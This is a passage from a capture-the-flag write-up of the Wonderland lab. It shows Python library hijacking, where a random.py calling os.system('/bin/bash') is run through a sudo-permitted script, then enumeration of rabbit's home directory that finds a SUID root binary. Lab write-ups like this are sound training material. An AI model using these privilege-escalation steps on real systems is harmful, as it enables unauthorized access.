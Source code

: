 # 5. Access rabbit using Python script
### I'm Writing a testing program just for try
```bash
alice@wonderland:~$ echo ""import os"
> os.system("/bin/bash")" > random.py
alice@wonderland:~$ cat random.py 
import os
os.system("/bin/bash")
alice@wonderland:~$ 
```
## Let try to run probably it will run as i think of !!
```bash
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```
## wow I got this 
### So let manually enum this
```bash
rabbit@wonderland:~$ pwd
/home/alice
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ 
```
### I fond something suspicious ```teaParty``` is in red colour
## Ok ti try to execute and read content but it not doing anything.
```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Fri, 05 Apr 2024 19:27:36 +0000
Ask very nicely, and I will give you some tea while you wait for him
dddd
Segmentation fault (core dumped)
rabbit@wonderland:/home/rabbit$ nano teaParty 
Unable to create directory /home/alice/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

rabbit@wonderland:/home/rabbit$ 
```
